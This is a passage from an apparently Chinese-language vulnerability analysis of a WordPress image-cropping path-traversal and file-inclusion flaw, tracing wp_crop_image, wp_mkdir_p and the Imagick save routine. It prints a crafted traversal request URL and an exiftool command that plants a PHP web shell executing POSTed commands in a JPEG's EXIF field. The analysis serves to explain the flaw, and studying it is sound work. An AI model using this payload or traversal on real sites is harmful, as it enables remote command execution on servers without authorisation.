 ```
`}`
```

可以发现它将文件路径请求拼接为<br>
/wp-content/uploads/poc.jpg<br>
所以发出请求为：http://127.0.0.1/wp-content/uploads/2019/03/poc.jpg#/../../../../themes/twentyseventeen/poc.jpg然后又因为#后的当作书签，于是图片可以被请求到。

然后wp_crop_image函数执行到$editor = wp_get_image_editor( $src );的时候，跟进wp_get_image_editor会发现它会自动获取到的图片处理库

[![](https://p1.ssl.qhimg.com/t01d923c49fc169cae3.png)](https://p1.ssl.qhimg.com/t01d923c49fc169cae3.png)

跟进_wp_image_editor_choose函数

[![](https://p2.ssl.qhimg.com/dm/1024_675_/t016c87ec9d9c916349.png)](https://p2.ssl.qhimg.com/dm/1024_675_/t016c87ec9d9c916349.png)

wordpress后端使用的图片处理库有两个，imagick和gd

代码可以看到优先默认用imagick而Imagick处理图片时不处理EXIF信息，因此可以把恶意代码设置在EXIF部分，经过裁剪后会保留EXIF信息，此时再进行包含就能造成代码执行。

所以制作图片马也很简单：

```
exiftool poc.jpg -documentname="&lt;?php echo exec($_POST['cmd']); ?&gt;"
```

继续回到wp_crop_image函数。被裁剪的图片被命名为’cropped-‘ . basename( $src_file )，然后为其创建目录wp_mkdir_p( dirname( $dst_file ) );

分析一下wp_mkdir_p函数。

[![](https://p5.ssl.qhimg.com/t010f65af3094b92b5e.png)](https://p5.ssl.qhimg.com/t010f65af3094b92b5e.png)

跟进

[![](https://p1.ssl.qhimg.com/t01f92dbdf5d64b246e.png)](https://p1.ssl.qhimg.com/t01f92dbdf5d64b246e.png)

是执行了mkdir命令，而这个命令支持不存在的目录通过../跳转的，在第一次执行的时候，会创建poc.jpg目录。

所以wp_mkdir_p( dirname( $dst_file ) );这一行代码很关键。如果没有创建目录的话../../../../是不会跳转的。

最后调用 save 方法存入图片。

save函数,它会调用你当前图片库的裁剪功能，生成图片结果。

```
#wp-includes/class-wp-image-editor-imagick.php
    public function save( $destfilename = null, $mime_type = null ) `{`
        $saved = $this-&gt;_save( $this-&gt;image, $destfilename, $mime_type );

        if ( ! is_wp_error( $saved ) ) `{`
            $this-&gt;file      = $saved['path'];
            $this-&gt;mime_type = $saved['mime-type'];

            try `{`
                $this-&gt;image-&gt;setImageFormat( strtoupper( $this-&gt;get_extension( $this-&gt;mime_type ) ) );
            `}` catch ( Exception $e ) `{`
                return new WP_Error( 'image_save_error', $e-&gt;getMessage(), $this-&gt;file );
            `}`
        `}`

        return $saved;
    `}`
```
